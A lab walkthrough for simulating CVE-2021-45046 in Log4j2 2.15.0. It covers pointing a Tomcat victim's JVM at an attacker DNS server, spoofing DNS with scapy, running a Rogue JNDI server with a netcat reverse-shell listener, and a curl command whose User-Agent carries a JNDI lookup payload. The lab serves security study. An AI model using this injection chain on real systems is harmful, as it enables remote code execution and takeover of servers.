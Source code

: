 # CVE-2021-45046 Simulation

* Apache Log4j2 Thread Context Lookup Pattern vulnerable to remote code execution in certain non-default configurations
* Log4j2 version <=2.15.0

## Set Up Lab Environment

* [Victim Server](../victim/README.md)
* [Attacker Server - Rogue JNDI](../attacker/README.md)

## Update Java JNDI DNS Service (Java 7-8)

In your victim's server (Tomcat), update the `JAVA_OPTS` of the JVM to add the following [JNDI DNS service provider settings](https://docs.oracle.com/javase/7/docs/technotes/guides/net/properties.html#:~:text=sun.net.spi.nameservice.provider.%3Cn%3E%3D%3Cdefault%7Cdns%2Csun%7C...%3E):

* `sun.net.spi.nameservice.provider.<n>=<default|dns,sun|...>`: Specifies the name service provider that you can use. By default, Java will use the system configured name lookup mechanism, such as file, nis, etc. You can specify your own by setting this option. <n> takes the value of a positive number, it indicates the precedence order with a small number takes higher precendence over a bigger number. Aside from the default provider, the JDK includes a DNS provider named `dns,sun`.
* `sun.net.spi.nameservice.nameservers=<server1_ipaddr,server2_ipaddr ...>`: You can specify a comma separated list of IP addresses that point to the DNS servers you want to use. If the sun.net.spi.nameservice.nameservers property is not defined, then the provider will use any name servers already configured in the platform DNS configuration.

You can add the `JNDI DNS service provider settings` pointing to the DNS server you want to use. In my case, I set it to point to an Azure VM that I was using as the `attacker` machine with IP address `192.168.2.6`.

### Java Code

You can set the settings in your Java application before the main function. In my lab environment, I use Tomcat to host my vulnerable applications.

```
System.setProperty("sun.net.spi.nameservice.nameservers", "192.168.2.6");
System.setProperty("sun.net.spi.nameservice.provider.1", "dns,sun");
```

### Tomcat Service

If your Java application is hosted by services such as Tomcat, then you need to update the `JAVA_OPTS` environment variable defined in the service file `/etc/systemd/system/tomcat.service`:

```bash
nano /etc/systemd/system/tomcat.service
```

Your service file might have a `JAVA_OPTS` entry like the one below:

```
Environment='JAVA_OPTS=-Dcom.sun.jndi.ldap.object.trustURLCodebase=true -Djava.net.preferIPv4Stack=true -Djava.net.preferIPv4Addresses=true -Djava.awt.headless=true'
```

Add the `JNDI DNS service provider settings` pointing to the DNS server you want to use:

```bash
Environment='JAVA_OPTS=-Dsun.net.spi.nameservice.provider.1=dns,sun -Dsun.net.spi.nameservice.nameservers=192.168.2.6 -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -Djava.net.preferIPv4Stack=true -Djava.net.preferIPv4Addresses=true -Djava.awt.headless=true'
```

Reload services:

```bash
systemctl daemon-reload
```

## Set up Fake DNS Resolver:

I repurposed a [basic python script](https://jasonmurray.org/posts/2020/scapydns/) to handle our Java application DNS request with our weird domain name with the  `#` character in it (e.g. `127.0.0.1#attackerbox/a`). The python script uses [scapy](https://scapy.net/) to sniff DNS traffic hitting my `attacker` vm and spoof the DNS responses.

script: [dnsSpoof.py](https://github.com/Cyb3rWard0g/log4jshell-lab/tree/main/attacker/dns-server/dnsSpoof.py)

All we need to do is run the script on the `attacker` vm and wait for DNS request coming from our victim machine hosting the vulnerable Java application with Log4j version 2.15.

```bash
apt install -y python3-pip

cd /opt/log4jshell-lab/attacker/dns-server
pip3 install -r Requirements.txt
```

```bash
python3 dnsSpoof.py --iface eth0 --srcip 192.168.2.5 --srchost ubuntu5 --dstip 192.168.2.6 --dsthosts '#ubuntu6'
```

## Initialize Rogue JNDI

The IP address of my attacker VM is `192.168.2.6`. Therefore, I start `Rogue JNDI` with the following command:

```bash
docker run --rm -ti -e PAYLOAD_IP=192.168.2.6 -p 1389:1389 -p 8888:8888 rogue-jndi
```

## Start Netcat Listener

In the same attacker server, start a netcat listener to process the reverse shell:

```bash
nc -lvnp 443
```

## Trigger JNDI Lookup -> Bypass JNDI allowedLdapHost

On my victim vm, I run the following `curl` command to trigger the bypass:

### Deserialized Payload

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://127.0.0.1#ubuntu6:1389/o=tomcat}' 127.0.0.1:8080/Log4j-2.15.0-SNAPSHOT/api
```

## References

* https://securitylab.github.com/advisories/GHSL-2021-1054_GHSL-2021-1055_log4j2/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046
* https://www.lunasec.io/docs/blog/log4j-zero-day-severity-of-cve-2021-45046-increased/
* https://twitter.com/marcioalm/status/1471740771581652995
* https://docs.oracle.com/javase/7/docs/technotes/guides/net/properties.html#:~:text=sun.net.spi.nameservice.provider.%3Cn%3E%3D%3Cdefault%7Cdns%2Csun%7C...%3E
* https://slackhacker.com/2010/07/21/how-to-set-a-custom-dns-server-with-java-system-properties/